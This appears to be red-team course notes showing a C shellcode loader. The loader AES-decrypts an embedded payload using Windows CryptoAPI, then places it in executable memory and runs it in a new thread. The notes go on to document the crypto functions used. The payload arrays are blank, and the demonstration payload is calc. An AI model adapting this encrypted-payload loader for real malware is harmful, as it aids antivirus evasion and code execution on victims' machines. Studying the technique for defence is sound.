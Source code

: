 
Code snippet
```c
/*

 Red Team Operator course code template
 payload encryption with AES
 
 author: reenz0h (twitter: @sektor7net)

*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#include <psapi.h>


int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
        HCRYPTPROV hProv;
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;

        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
                return -1;
        }
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
                return -1;
        }
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
                return -1;              
        }
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
                return -1;
        }
        
        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, &payload_len)){
                return -1;
        }
        
        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);
        
        return 0;
}


int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	char key[] = 
	unsigned char calc_payload[] = 
	unsigned int calc_len = sizeof(calc_payload);
	
	// Allocate memory for payload
	exec_mem = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "calc_payload addr", (void *)calc_payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	printf("\nHit me 1st!\n");
	getchar();

	// Decrypt payload
	AESDecrypt((char *) calc_payload, calc_len, key, sizeof(key));
	
	// Copy payload to allocated buffer
	RtlMoveMemory(exec_mem, calc_payload, calc_len);
	
	// Make the buffer executable
	rv = VirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me 2nd!\n");
	getchar();

	// If all good, launch the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```

---

Encrypt payload - take the key
```bash
python aesencrypt.py calc.bin
```

---

In Windows API, you can use and older **Cryptographic API (CryptoAPI)** to perform AES encryption and decryption with functions like `CryptAcquireContextW()`, `CryptHashData()`, `CryptEncrypt()` or `CryptDecrypt()`. But Win API delivers another, newer API - the **Cryptography API: Next Generation** (CNG) with several functions for AES, ex. `BCryptOpenAlgorithmProvider()`, `BCryptGenerateSymmetricKey()`, `BCryptEncrypt()`, etc.

#### Decrypting AES payload algorithm (C-like pseudo-code)

```c
// 1. open a handle hProv to a Cryptographic Service Provider - a module
// implementing specific crypto algorithms, like RSA, AES, etc.
CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)

// 2. prepare a new hashing object to generate a SHA-256 hash from the provided key
CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)

// 3. create SHA-256 hash from the key
CryptHashData(hHash, key, keylen, 0)

// 4. derive a symmetric AES-256 key from the hash
CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)

// 5. finally, decrypt the payload
CryptDecrypt(hKey, NULL, 0, 0, payload, &payload_len)
```

---
#### Key Windows API functions

[**_CryptAcquireContextW()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptacquirecontexta) is used to acquire a handle to a **Cryptographic Service Provider** (CSP) and, if necessary, to create a new key container. In other words, this function helps to establish a cryptographic context that allows applications to access and use cryptographic services provided by the CSP. A CSP is a software module that implements cryptographic algorithms and provides services such as encryption, decryption, hashing, and digital signatures. This function can be found in the _advapi32.dll_ library.

`CryptAcquireContextW()` function has the following prototype:

```c
BOOL WINAPI CryptAcquireContextW(
  HCRYPTPROV *phProv,        // pointer to a handle of a CSP [out param]
  LPCWSTR    pszContainer,   // key container name (null-terminated string). When dwFlags is set to CRYPT_VERIFYCONTEXT, pszContainer must be set to NULL
  LPCWSTR    pszProvider,    // null-terminated string that contains the name of the CSP to be used. If NULL == default provider
  DWORD      dwProvType,    // type of provider to acquire, ex. PROV_RSA_FULL, PROV_RSA_AES, PROV_DSS_DH, etc.
  DWORD      dwFlags        // flag values, usually set to zero. CRYPT_VERIFYCONTEXT for ephemeral keys
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).

---

[**_CryptCreateHash()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptcreatehash) is used to create a handle to a hash object for a particular hash algorithm. This function can be found in the _advapi32.dll_ library.

`CryptCreateHash()` function has the following prototype:

```c
BOOL WINAPI CryptCreateHash(
  HCRYPTPROV hProv,    // handle to a CSP created by a call to CryptAcquireContext()
  ALG_ID     Algid,    // identifies the hash algorithm to use, ex. CALG_SHA_256, CALG_AES_128, CALG_ECDH, etc.
  HCRYPTKEY  hKey,     // type of hash algorithm is a keyed hash (like MAC or HMAC). Zero if nonkeyed algos
  DWORD      dwFlags,  // 0 or CRYPT_SECRETDIGEST (not used)
  HCRYPTHASH *phHash   // address to which the function copies a handle to the new hash object (pointer)
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).

---

[**_CryptHashData()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-crypthashdata) is used for hashing data using various hash algorithms provided by the operating system. This function can be found in the _advapi32.dll_ library.

`CryptHashData()` function has the following prototype:

```c
BOOL CryptHashData(
  HCRYPTHASH hHash,      // handle of the hash object
  const BYTE *pbData,    // pointer to a buffer that contains the data to be added to the hash object
  DWORD      dwDataLen,  // number of bytes of data to be added
  DWORD      dwFlags     // 0 - nothing, 0x1 - CRYPT_USERDATA
);
```
